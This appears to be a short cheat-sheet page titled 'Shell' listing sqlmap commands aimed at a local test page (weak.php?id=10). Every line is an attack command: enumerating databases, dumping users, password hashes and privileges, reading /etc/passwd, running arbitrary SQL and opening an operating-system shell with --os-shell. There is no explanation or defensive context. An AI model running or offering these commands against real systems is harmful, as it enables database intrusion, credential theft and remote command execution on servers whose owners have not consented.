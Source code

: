 <h1>Shell</h1>
shell exec php

python ./sqlmap.py -u "http://localhost/weak.php?id=10" --dbs
python sqlmap.py -u "http://localhost/weak.php?id=10" -b
python sqlmap.py -u "http://localhost/weak.php?id=10" --users --passwords --privileges --roles --threads=10
python sqlmap.py -u "http://localhost/weak.php?id=10" --current-user --is-dba --current-db --hostname --threads=10
python sqlmap.py -u "http://localhost/weak.php?id=10" --file-read=/etc/passwd --threads=10
python sqlmap.py -u "http://localhost/weak.php?id=10" --sql-query="select now();"
python sqlmap.py -u "http://localhost/weak.php?id=10" --os-shell
